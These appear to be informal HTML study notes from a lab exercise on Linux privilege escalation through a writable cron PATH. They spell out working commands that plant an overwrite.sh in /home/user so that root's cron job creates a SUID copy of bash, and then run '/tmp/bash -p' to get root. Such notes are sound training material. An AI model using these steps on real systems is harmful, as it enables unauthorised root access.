

<!DOCTYPE html  PUBLIC '-//W3C//DTD XHTML 1.0 Transitional//EN'  'http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd'><html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta content="text/html; charset=utf-8" http-equiv="Content-Type"/>
<title>Cron Paths</title>
</head><body><b>Escalation via Cron Paths</b> 
 
 
Search by catting out crontable 
 
 
cat /etc/crontab 
 
 
 
 
Lots of info. 
 
Chekc path.. its first checking in /home/user. tahts good. 
 
the tasks being run (by root) are overwrite and comrpess. 
 
The key difference is overwrite is not being directly called like compress. this means we can check for and potentailly modify or insert overwrite.sh into home user and escalate. 
 
check if its there 
 
<b>ls -la</b> 
 
not there./ perfect create own 
 
one liner 
 
syntax &gt; <b>echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' &gt; /home/user/overwrite.sh</b> 
 
Then <b>chmod+x /home/user/overwrite.sh 
</b> 
ls -la and check its there...  
 
take not of the time modified. 
 
check back in a few minutes note that the time mopdifed has changed 
 
run it 
 
<b>/tmp/bash -p</b> 
 
 
 
 
 
 
 
Detection 
 
Linux VM 
 
1. In command prompt type: cat /etc/crontab 
2. From the output, notice the value of the “PATH” variable. 
 
Exploitation 
 
Linux VM 
 
1. In command prompt type: 
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' &gt; /home/user/overwrite.sh 
2. In command prompt type: chmod +x /home/user/overwrite.sh 
3. Wait 1 minute for the Bash script to execute. 
4. In command prompt type: /tmp/bash -p 
5. In command prompt type: id 
 
 
 
 
</body></html>